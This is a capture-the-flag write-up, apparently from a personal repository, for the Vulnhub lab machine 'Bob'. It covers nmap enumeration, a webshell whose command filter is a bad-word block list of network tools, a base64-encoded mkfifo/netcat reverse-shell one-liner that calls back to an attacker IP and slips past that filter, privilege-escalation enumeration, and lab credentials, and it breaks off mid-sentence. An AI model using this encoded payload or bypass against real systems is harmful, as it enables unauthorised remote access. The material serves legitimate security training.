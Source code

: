 ```yaml
---
title: Bob
Category: Vulnhub
---
```


## Enumeration

Starting enumeration, ran nmap with default scripts and service detection and found a HTML site running on TCP/80.

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-13 15:08 -03                                                                                                                             
Nmap scan report for Milburg-High.mshome.net (172.17.11.83)
Host is up (0.00027s latency).                                                                
Not shown: 998 closed ports                                                                                                                                                                 
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5b                                                           
80/tcp open  http    Apache httpd 2.4.25 ((Debian))                                                                                                                                         
| http-robots.txt: 4 disallowed entries                                                       
| /login.php /dev_shell.php /lat_memo.html                                                                                                                                                  
|_/passwords.html                      
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Unix   
```

This site has 4 interesting entries, that were verified

- `login.php`, which doesn't exist anymore

- `lat_memo.html`, which contains the following message from BOB:
  > Memo sent at GMT+10:00 2:37:42 by User: Bob
  > Hey guys IT here don't forget to check your emails regarding the recent security breach. There is a web shell running on the server with no protection but it should be safe as I have ported over the filter from the old windows server to our new linux one. Your email will have the link to the shell.
  > -Bob

- `passwords.html`, which had the content below:

  > Really who made this file at least get a hash of your password to display, hackers can't do anything with a hash, this is probably why we had a security breach in the first place. Comeon people this is basic 101 security! I have moved the file off the server. Don't make me have to clean up the mess everytime someone does something as stupid as this. We will have a meeting about this and other stuff I found on the server. >:(
  > -Bob

- dev_shell.php, is a webshell

  - Simple commands like ls works properly, but some of then fail displaying some messages.

  - Leveraging the possibilities, used cat to display the content of the php page itself to understand its limitations (cat dev_shell.php)

```html
<html>
<body>
   <?php
//init
$invalid = 0;
$command = ($_POST['in_command']);
$bad_words = array("pwd","ls","netcat","ssh","wget","ping","traceroute","cat","nc");
?>
   <style>
   
   </style>
   <!-- WIP, don't forget to report any bugs we don't want another breach guys
  -Bob -->
   <div id="shell">
      <h2>
         dev_shell
      </h2>
      <form action="dev_shell.php" method="post">
         Command: <input type="text" name="in_command" /> <br>
         <input type="submit" value="submit">
      </form>
      <br>
      <h5>Output:</h5>

      <?php
system("running command...");
//executes system Command
//checks for sneaky ;
if (strpos($command, ';') !== false)
{
    system("echo Nice try skid, but you will never get through this bulletproof php code"); //doesn't work :P
}
else
{
    $is_he_a_bad_man = explode(' ', trim($command));
    //checks for dangerous commands
    if (in_array($is_he_a_bad_man[0], $bad_words))
    {
        system("echo Get out skid lol");
    }
    else
    {
        system($_POST['in_command']);
    }
}
?>

   </div>
   <img src="dev_shell_back.png" id="back" alt="">
</body>
</html>
```

- The content shows, php code prevents execute of content containing:
- ";" which can allow multiple executions
- Contains one of the "badwords"
- "pwd","ls","netcat","ssh","wget","ping","traceroute","cat","nc"
- Based on that, crafted the command, using base64 to decode  and run content, using this command was possible to get the reverse shell

```bash
echo -n 'cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMudHJhZGl0aW9uYWwgMTcyLjE3LjkuMTMxIDQ0NDMgPi90bXAvZg==' | base64 -d | bash
```

- After upgrading shell to get autocomplete by spawning a tty using python, started the enumeration. Found hidden file .hint containing the content below

```plaintext
www-data@Milburg-High:/var/www/html$ cat .hint 
Have you tried spawning a tty shell?
Also don't forget to check for hidden files ;)
```

- Executing LinEnum, noticed the following interesting stuff to privesc

```plaintext
User www-data may run the following commands on Milburg-High:
      (ALL) NOPASSWD: /usr/bin/service apache2 *
      (root) NOPASSWD: /bin/systemctl start ssh
```

- As Bob mentioned that he moved the old passwords.html file, used the following command to see if www-data would be able to read it from somewhere. Started from /home directory and we were lucky, getting two credentials

```bash
$ cat /home/bob/.old_passwordfile.html
<html>
   <p>
   jc:Qwerty
   seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
   </p>
</html>
```

- From remote shell, was able to

